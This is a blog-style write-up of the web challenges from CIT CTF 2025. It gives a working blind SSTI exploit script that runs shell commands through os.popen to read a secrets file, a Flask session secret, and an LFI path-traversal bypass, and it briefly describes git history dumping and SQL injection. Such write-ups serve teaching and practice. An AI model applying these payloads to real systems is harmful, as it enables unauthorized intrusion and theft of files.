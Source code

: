 ```yaml
---
title: "[CIT CTF 2025] Solving all Web challenges"
draft: false
date: "2025-04-28"
excerpt: "Complete writeup for all web challenges from CIT CTF 2025, including SSTI exploitation, LFI bypasses, git repository enumeration, and SQL injection techniques."
tags: ["CTF", "web security", "SSTI", "LFI", "SQL injection", "git enumeration", "flask"]
author: "MindPatch"
---
```


Hello, I joined the CTF for fun during the weekend.

I focused on web challenges and completed all challenges in this category. The challenges were straightforward and made for a fun weekend.

## Mr. Chatbot

![Mr. Chatbot Challenge](https://miro.medium.com/v2/resize:fit:952/1*kvW3lucpnNq6fTtQ9Y_BBA.png)

The application shows a welcome page asking for your name, then puts you in a chat with a bot. The goal was to get the Flag from the bot. This wasn't an LLM attack — responses came from JavaScript files.

![Chat Interface](https://miro.medium.com/v2/resize:fit:952/1*RXw88Zwtk6JNglc_pSVzTQ.png)

After entering a name, you get a session value that can be decoded with flask-unsign:

```bash
$ flask-unsign --unsign --cookie "eyJhZG1pbiI6IjAiLCJuYW1lIjoiaGFja2VyIn0.aA8u-Q.GRwPzCvfn4k_zUDDzo_XL83fKJk" --secret="9f3IC3uj9^zZ"
[*] Session decodes to: {'admin': '0', 'name': 'hacker'}
```

![Session Decoding](https://miro.medium.com/v2/resize:fit:952/1*lZwyPZ9_OqenlmQWuCAssg.png)

After trying injections with no luck, I did parameter fuzzing and found the `admin=1` parameter. This revealed new session data:

![Admin Parameter](https://miro.medium.com/v2/resize:fit:667/1*1TuqK6xE0XGYJz-DQD50oQ.png)

```bash
$ flask-unsign --unsign --cookie ".eJwdzE0LgjAAxvHvsksEHVoJUdEpe7M2C2S63cyJTacIFprRd--x2397ftuHxLo0FVkRSiakissUmT6TOm6aVo_G63GGO43tZTSmy0xM5XvZyoj3enarzkFjzqF-3ENRSCNz1heL6PiwzHaO7LMaXfJ956hwn6QHUVzQfqDQrL3SbjpYTmFzL0ndguKc822NfUe5Haz2omPWMfpvGJsrtAoEzMmBNwpOuXZ4M4d1fAEb_v-be4b1ftBsyPcHZ6hN0g.aAwwvA.ouiTuVJ131_fQmyqYgewMTM-ZlM" --secret="9f3IC3uj9^zZ"
[*] Session decodes to: {'admin': '1', 'name': "hacker", 'uid': 'L2V0Yy9wYXNzd2QnKTsiKWdhbWVkYiYjMzk7XHhlMlx4YzgpXHhmNFx4ZWFceGVkLFx4OTZceGMwP1x0XHhlN1x4YjJceDk1XHhjNCpceGE1Nlx4OTdJXHgxM1x4OTdceDljZ1x4ZTVceGI4XHhiZlx4ZDlceGE3XHg4OVx4OWJceDk3JiMzOTs='}
```

As you see there's a new variable (**UID**), I tried doing some injections like SSTI and got it :)

![SSTI Success](https://miro.medium.com/v2/resize:fit:667/1*GdcyUtROwNfXlDF7_ViIVw.png)

Well The idea now to get **secrets.txt** file blindly, I wrote a script that uses **head** command if char is valid then sleep 5 seconds

```python
import requests
import string
import time

CHARS = string.printable
FOUND = ""
POSITION = len(FOUND) + 1

def make_payload(position, the_char):
    # Use a simple command to compare single character
    cmd = f'[ "$(head -c {position} secrets.txt | tail -c 1)" = "{the_char}" ] && sleep 5'
    payload = "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('"+cmd+"').read() }}"
    return payload

def exploit():
    global FOUND, POSITION
    
    # Continue until we've found enough characters or need to stop
    max_positions = 100  # Set a reasonable limit
    consecutive_spaces = 0  # Track consecutive spaces to detect end of file
    
    while POSITION <= max_positions and consecutive_spaces < 5:  # Stop after 5 consecutive spaces
        found_char = False
        
        for ch in CHARS:
            if ch in ['"', '\\', '`', '$', '&', '|', ';', '\n', '\r']:  # Skip problematic chars
                continue
                
            print(f"Position {POSITION}, trying character: {ch}")
            start_time = time.time()
            
            try:
                r = requests.post(
                    "http://23.179.17.40:58005/", 
                    allow_redirects=False, 
                    data={"name": make_payload(POSITION, ch), "admin": "1"},
                    proxies={"http": "http://localhost:8080"},
                    timeout=10
                )
                
                elapsed_time = time.time() - start_time
                
                if elapsed_time >= 4.5:  # Slightly lower threshold to account for network variability
                    FOUND += ch
                    found_char = True
                    
                    # Reset consecutive spaces counter if we found a non-space
                    if ch != ' ':
                        consecutive_spaces = 0
                    else:
                        consecutive_spaces += 1
                        
                    print(f"Found character at position {POSITION}: {ch}")
                    print(f"Current secret: {FOUND}")
                    break
                    
            except requests.exceptions.Timeout:
                # If timeout occurs, the character matched
                FOUND += ch
                found_char = True
                
                # Reset consecutive spaces counter if we found a non-space
                if ch != ' ':
                    consecutive_spaces = 0
                else:
                    consecutive_spaces += 1
                    
                print(f"Found character at position {POSITION} (timeout): {ch}")
                print(f"Current secret: {FOUND}")
                break
                
            except Exception as e:
                print(f"Error with character {ch} at position {POSITION}: {e}")
        
        if not found_char:
            FOUND += " "
            consecutive_spaces += 1
            print(f"No character found at position {POSITION}, adding space and continuing")
            print(f"Current secret: {FOUND}")
            print(f"Consecutive spaces: {consecutive_spaces}")
        
        POSITION += 1
        
        time.sleep(1)

def main():
    print(f"Starting blind exploitation from existing credentials: {FOUND}")
    print(f"Starting at position: {POSITION}")
    exploit()
    print(f"Final extracted secret: {FOUND}")

if __name__ == "__main__":
    main()
```

And after running it got the flag :)

```bash
$ python exp.py
admin:9f3IC3uj9^zZ  CIT{18a7fbedb4f3548f}
```

## How I Parsed your JSON

This challenge reads JSON files locally and provides a SQL-like syntax to extract data. You can add `*` to the query to extract all columns.

The useful finding was converting the `container` parameter into a list with `?container[]=`. This showed a debug page with source code.

![Debug Page](https://miro.medium.com/v2/resize:fit:667/1*HpShJFda_vKXHxW6UGpBfA.png)

The code simply removes `../` and file extensions from the container name to prevent LFI. This can be bypassed with `..//file.txt.txt`.

```
/select?record=*&container=../../../..//app//secrets.txt.txt
```

![LFI Bypass Result](https://miro.medium.com/v2/resize:fit:667/1*KhKFV2iS03LRGP23UU74KA.png)

## Commit & Order: Version Control Unit

This challenge was straightforward. I discovered an exposed `/.git` directory on the server and dumped the repository using the git-dump tool.

After examining the commit history, I found older commits that contained the source code with hardcoded admin credentials. This is a common security mistake where developers remove sensitive information in later commits but forget that the data remains accessible in the Git history.

The steps to solve were:

1. Identify the exposed Git repository at `/.git`
2. Download the repository using git-dump
3. Review commit history with `git log`
4. Check older commits with `git show [commit-hash]`
5. Find the source code file containing the hardcoded admin password in admin.php
6. Use the credentials to access the admin panel and retrieve the flag

## Breaking Authentication

This challenge featured a straightforward SQL injection vulnerability in the login page.

Steps to solve:

1. Accessed the database and dumped its contents
2. Found the flag stored in the 'secrets' table

Classic example of an unsanitized input field allowing SQL injection to compromise a web application's authentication mechanism.

## Keeping Up with the Credentials

This challenge required first solving another challenge to obtain valid username and password credentials.

Steps to solve:

1. Used credentials obtained from the previous challenge to log in
2. After login, got redirected to `/debug.php` which was an empty page
3. Noticed that accessing `/admin.php` directly would automatically log you out
4. Modified the login request to include the parameter `admin=true` using POST method
5. Successfully redirected to `/admin.php` with admin privileges
6. Retrieved the flag from the admin page

Pretty Simple :v
